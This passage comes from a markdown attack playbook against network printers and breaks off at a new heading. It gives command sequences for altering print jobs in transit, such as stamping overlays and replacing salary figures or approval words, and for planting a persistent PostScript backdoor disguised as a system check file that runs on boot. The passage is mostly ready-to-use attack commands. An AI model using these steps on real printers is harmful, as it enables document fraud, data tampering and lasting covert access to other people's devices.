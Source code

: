 **Impact**: Massive information disclosure, espionage

---

### Attack 5.2: Job Modification

**Objective**: Modify print jobs in transit

```bash
# Enable overlay on all jobs
> overlay hack_stamp.eps

# All printed pages now have overlay
# "CONFIDENTIAL - LEAKED"

# Or modify content
> replace "Salary: $50,000" "Salary: $80,000"
> replace "APPROVED" "DENIED"
```

**Impact**: Data manipulation, fraud

---

## 🔐 Persistence

### Attack 6.1: Backdoor Installation

**Objective**: Maintain persistent access

**Steps:**
```bash
# 1. Upload backdoor script
> upload backdoor.ps /webServer/system_check.ps

# 2. Verify persistence
> restart
# Wait...
> reconnect
> ls /webServer
-  2048  system_check.ps  # Still there!

# 3. Execute backdoor
> execute @PJL ENTER LANGUAGE=POSTSCRIPT
> execute (/webServer/system_check.ps) run

# 4. Establish persistence
# Backdoor runs on printer boot
```

**Impact**: Persistent compromise, long-term access

---

### Attack 6.2: Configuration Persistence
